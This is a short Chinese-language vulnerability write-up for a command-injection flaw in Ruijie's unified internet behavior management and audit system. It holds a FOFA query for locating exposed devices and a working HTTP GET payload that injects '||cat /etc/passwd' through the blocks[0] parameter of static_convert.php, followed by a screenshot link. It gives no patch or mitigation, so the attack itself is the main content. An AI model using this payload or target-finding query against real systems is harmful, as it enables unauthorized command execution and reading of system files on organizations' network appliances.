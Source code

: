 # 锐捷统一上网行为管理与审计系统 命令执行

### 1.漏洞描述

锐捷统一上网行为管理与审计系统是一种专业的网络管理解决方案，旨在帮助组织监控和管理网络使用。通过精确的流量控制和详尽的审计功能，系统能够实时分析和记录用户的上网行为，保障网络安全和资源合理利用。它支持多种认证方式和策略配置，提供强大的报表生成和统计分析功能，帮助管理员有效管理带宽、优化网络性能，确保网络环境的稳定与安全。

### 2.fofa语法

```plain
body="/api/statistics/service-usage-amount"
```

### 3.漏洞复现

```plain
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||cat%20%2fetc%2fpasswd HTTP/1.1
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719316022900-f2e85f1b-46e0-4cf2-8ecc-60eb8df0537a.png)